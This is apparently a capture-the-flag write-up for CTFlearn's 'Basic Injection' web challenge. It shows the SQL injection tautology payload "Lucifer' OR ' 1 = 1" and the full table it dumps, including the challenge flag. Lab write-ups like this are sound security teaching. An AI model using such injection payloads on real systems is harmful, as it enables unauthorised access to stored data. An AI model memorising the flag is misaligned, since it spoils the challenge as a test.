 <h1> Basic Injection </h1>

Problem Statement: <br><br>
See if you can leak the whole database using what you know about SQL Injections. <br><br>

Step-1: <br><br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it. <br><br>

Step-2: <br><br>
Inspect the input text box. <br><br>
You will find the line given below. <br><br>
<code> Try some names like Hiroki, Noah, Luke </code> <br><br>

Step-3: <br><br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br><br>
I submitted the input <code> Lucifer' OR ' 1 = 1 </code>  and got the following output: <br><br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>
<br>
Step-4: <br><br>
The desired flag <code> CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
